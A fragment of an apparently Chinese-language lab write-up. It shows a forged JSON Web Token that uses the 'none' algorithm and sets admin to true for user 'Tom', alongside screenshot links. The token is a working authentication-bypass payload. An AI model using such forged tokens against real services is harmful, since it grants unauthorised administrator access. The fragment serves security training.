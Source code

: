 admin改为true

![QQ截图20220331211830](image40/QQ截图20220331211830.png)

Payload:

```
eyJhbGciOiJub25lIn0.ewogICJpYXQiOiAxNjQ5NTk2MzAzLAogICJhZG1pbiI6ICJ0cnVlIiwKICAidXNlciI6ICJUb20iCn0.
```



![QQ截图20220331211942](image40/QQ截图20220331211942.png)
